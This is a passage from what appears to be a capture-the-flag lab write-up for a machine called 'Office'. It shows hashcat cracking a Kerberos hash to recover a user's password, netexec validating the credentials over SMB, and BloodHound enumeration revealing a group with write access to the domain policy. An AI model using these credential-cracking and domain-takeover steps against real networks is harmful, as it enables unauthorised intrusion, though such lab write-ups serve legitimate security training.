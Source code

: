 So now that we have the full hash we can try to crack it using hashcat. Using the following command i was able to crack the kerberos ticket's password. After a few moments we could see that the passoword of **tstark** was **playboy69**

```bash
hashcat -m 19900 -O -a 0 -w 4 kerbhash /usr/share/wordlists/rockyou.txt 
```
![cracked password](/assets/img/Office/Office_15.png)


We can verify that this password is valid with netexec

```bash
netexec smb 10.129.105.41 -u 'tstark'  -p 'playboy69' 
```
![Tstark working](/assets/img/Office/Office_16.png)

### Active directory enumeration

Now that we have a valid account i decided to run bloodhound to take an extract of all the domain controller objects. I ran bloodhound with the following settings:

```bash
bloodhound-python -d office.htb -v --zip -c All -dc 10.129.105.175 -ns 10.129.105.175 -u tstark -p  playboy69
```
When looking through the bloodhound output we can see one path that looks very interesting. It seems to be that the group GPO MANAGERS has a generic write on the default domain policy. This means that users that have access to this group could compromise the entire domain
